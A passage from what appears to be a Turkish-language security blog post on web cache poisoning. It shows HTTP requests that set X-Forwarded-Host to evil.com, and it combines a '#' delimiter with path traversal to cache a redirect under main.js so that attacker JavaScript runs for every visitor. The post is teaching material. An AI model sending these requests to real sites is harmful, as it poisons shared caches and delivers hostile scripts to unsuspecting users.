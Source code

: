 ```jsx
GET /home HTTP/1.1
Host: server.com
X-Forwarded-Host: evil.com
```

```jsx
HTTP/1.1 302 Found
Location: http://evil.com/index.html
```

Görüldüğü gibi istenilen yönlendirme yapılabilyor fakat bu önbelleğe alınmadığı için diğer kullanıcıların bu isteği yapmasını sağlayamazsınız. Çünkü standart web tarayıcıları üzerinden kullanıcıların XFF başlığını girmesini bekleyemezsiniz. Fakat eğer cache key ile backend tarafındaki parser üzerinde şimdiye kadar ele aldığımız gibi bir uyumsuzluk varsa bu isteğin önbelleğe alınmasını sağlamak mümkün olabilir.

Örneğin eğer ilgili websitesi ana sayfasında *main.js* isimli bir script dosyasını yüklüyorsa, bu dosya konumunu zehirleyerek ana sayfa üzerinde istediğimiz script kodunu çalıştırabiliiriz.

Bunun için aşağıdaki gibi bir istek gönderebiliriz:

```jsx
GET /main.js#/../home HTTP/1.1
Host: server.com
X-Forwarded-Host: evil.com
```

Bu isteği alan cache mekanizması `#` delimiter karakteri dolayısıyla yalnızca **main.js** kısmını önbelleğe alacak. Sunucu ise kendisine iletilen bu istekteki path traversal karakteri dolayısıyla /home dizininin içeriğini önbellek sunucusuna yanıt olarak dönecek. Ve aşağıdaki gibi bir yanıt ortaya çıkacak:

```jsx
HTTP/1.1 302 Found
Location: http://evil.com/home.html
```

Bu sayede aslında kullanıcı ana sayfayı ziyaret ettiğinde önbellekten *main.js* dosyası çağırılarak bizim zehirlemiş olduğumuz önbellek dolayısıyla evil.com adresindeki içerik çekilecek. Bu aşamada dilediğimiz javascript kodunu çalıştırmamız mümkün.

![image.png]({{ site.url }}/blog/img/web-cache-poisoning-icin-kurallari-esnetmek/image%2013.png){:class="responsive img-zoomable"}

Ayrıca aşağıdaki gibi yönlendirme yapılan bir diğer senaryoda:

```jsx
GET /redirect?somePage HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: evil.com
```

```jsx
HTTP/1.1 302 Found
Location: http://evil.com/somePage
Cache-Control: public, max-age=3600
```

Herhangi bir statik uzantılı dizini zehirlememize gerek kalmadan benzer metot ile isteğimiz dizinden, istediğimiz herhangi bir dizini zehirlememiz de mümkün olabilir.
